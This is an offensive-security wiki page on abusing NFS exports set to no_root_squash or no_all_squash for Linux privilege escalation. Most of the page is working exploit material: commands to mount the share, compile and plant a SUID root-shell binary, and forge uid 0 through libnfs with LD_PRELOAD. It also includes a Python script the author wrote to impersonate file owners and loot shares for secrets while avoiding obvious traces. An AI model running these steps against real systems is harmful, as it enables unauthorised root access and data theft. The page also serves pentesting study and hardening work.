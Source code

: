 # NFS no\_root\_squash/no\_all\_squash

## Theory

If you find some NFS directory that is configured as **no\_root\_squash**, then you can **access** it from **as a client** and **write inside** that directory **as** if you were the local **root** of the machine.

**no\_root\_squash**: This option basically gives authority to the root user on the client to access files on the NFS server as root. And this can lead to serious security implications.

**no\_all\_squash:** This is similar to **no\_root\_squash** option but applies to **non-root users**. Imagine, you have a shell as nobody user; checked /etc/exports file; no\_all\_squash option is present; check /etc/passwd file; emulate a non-root user; create a suid file as that user (by mounting using nfs). Execute the suid as nobody user and become different user.

## Practice

{% tabs %}
{% tab title="Enumerate" %}
To enumerate the NFS server’s configuration, all we need to do is view the contents of the **/etc/exports** file.

```bash
$ cat /etc/exports
```

If you see a share with the **no\_all\_squash or no\_root\_squash** configuration, you may be able to exploit it.
{% endtab %}

{% tab title="Exploit - Remote" %}
To exploit this privilege escalation vector, we will :

* mount the share from another machine where you’re root
* place a setuid binary there
* on the victim machine, run the binary and get root

On the attacking machine, mount the vulnerable share:

```bash
#Attacker, as root user
mkdir /mnt/pe
mount -t nfs <IP>:<SHARED_FOLDER> /mnt/pe
```

Creat a setuid binary and copy it to the mounted share

```bash
# Attacker, as root user
## Create a SUID binary
echo 'int main() { setgid(0); setuid(0); system("/bin/bash -p"); return 0; }' > /tmp/root_shell.c
gcc /tmp/root_shell.c -o /tmp/root_shell

## Copy the binary and set the uid byte
cd /mnt/pe
cp /tmp/root_shell .
chmod +s root_shell
```

On the victime computer, as a low privilege user:

```bash
# Victime, as low privilege user
cd <SHAREDD_FOLDER>
./root_shell 
#ROOT shell
```

{% hint style="success" %}
You can copy the **/bin/bash** binary directly and give it SUID rights instead of compiling a new binary.
{% endhint %}
{% endtab %}

{% tab title="Exploit - Local" %}
If the `/etc/exports` has an explicit list of IP addresses allowed to mount the share, we won't be able to make the remote exploit and you will need to **abuse this trick and exploit no\_root\_squash/no\_all\_squash locally with an unprivileged user**.

When [listing the NFS shares](../../../network/protocols/nfs.md#showmount), it will show IP allowed to mount the share:

```bash
$ showmount -e nfs-server
Export list for nfs-server:
/nfs_root   machine
```

{% hint style="info" %}
Another required requirement for the exploit to work is that **the export inside `/etc/export`** **must be using the `insecure` flag**.\
&#xNAN;_&#x49;'m not sure that if `/etc/export` is indicating an IP address this trick will work_
{% endhint %}

This exploit relies on a problem in the NFSv3 specification that mandates that it’s up to the client to advertise its uid/gid when accessing the share. Thus it’s possible to fake the uid/gid by forging the NFS RPC calls if the share is already mounted!

#### Compiling the example <a href="#compiling-the-example" id="compiling-the-example"></a>

Here’s a [library that lets you do just that](https://github.com/sahlberg/libnfs). Depending on your kernel, you might need to adapt the example. In my case I had to comment out the fallocate syscalls.

```bash
# On local NFS server or computer that have access to the share
./bootstrap
./configure
make
gcc -fPIC -shared -o ld_nfs.so examples/ld_nfs.c -ldl -lnfs -I./include/ -L./lib/.libs/
```

#### Exploiting using the library <a href="#exploiting-using-the-library" id="exploiting-using-the-library"></a>

Let’s use the simplest of exploits:

```bash
cat pwn.c
int main(void){setreuid(0,0); system("/bin/bash"); return 0;}
gcc pwn.c -o a.out
```

Place our exploit on the share and make it suid root by faking our uid in the RPC calls:

```bash
# On local NFS server or computer that have access to the share
LD_NFS_UID=0 LD_PRELOAD=./ld_nfs.so cp ../a.out nfs://nfs-server/nfs_root/
LD_NFS_UID=0 LD_PRELOAD=./ld_nfs.so chown root: nfs://nfs-server/nfs_root/a.out
LD_NFS_UID=0 LD_PRELOAD=./ld_nfs.so chmod o+rx nfs://nfs-server/nfs_root/a.out
LD_NFS_UID=0 LD_PRELOAD=./ld_nfs.so chmod u+s nfs://nfs-server/nfs_root/a.out
```

All that’s left is to launch it:

```bash
# On local NFS server or computer that have access to the share
$ /mnt/share/a.out
# root shell
```
{% endtab %}
{% endtabs %}

### NFShell <a href="#bonus-nfshell" id="bonus-nfshell"></a>

Once local root on the machine, I wanted to loot the NFS share for possible secrets that would let me pivot. But there were many users of the share all with their own uids that I couldn’t read despite being root because of the uid mismatch. I didn’t want to leave obvious traces such as a chown -R, so I rolled a little snippet to set my uid prior to running the desired shell command:

{% tabs %}
{% tab title="NFShell" %}
```python
#!/usr/bin/env python
import sys
import os

def get_file_uid(filepath):
    try:
        uid = os.stat(filepath).st_uid
    except OSError as e:
        return get_file_uid(os.path.dirname(filepath))
    return uid

filepath = sys.argv[-1]
uid = get_file_uid(filepath)
os.setreuid(uid, uid)
os.system(' '.join(sys.argv[1:]))
```

You can then run most commands as you normally would by prefixing them with the script:

```
# ll ./mount/
drwxr-x---  6 1008 1009 1024 Apr  5  2017 9.3_old

# ls -la ./mount/9.3_old/
ls: cannot open directory ./mount/9.3_old/: Permission denied

# ./nfsh.py ls --color -l ./mount/9.3_old/
drwxr-x---  2 1008 1009 1024 Apr  5  2017 bin
drwxr-x---  4 1008 1009 1024 Apr  5  2017 conf
drwx------ 15 1008 1009 1024 Apr  5  2017 data
drwxr-x---  2 1008 1009 1024 Apr  5  2017 install
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://book.hacktricks.xyz/linux-hardening/privilege-escalation/nfs-no_root_squash-misconfiguration-pe" %}

{% embed url="https://www.errno.fr/nfs_privesc.html" %}

{% embed url="https://www.errno.fr/nfs_privesc.html" %}
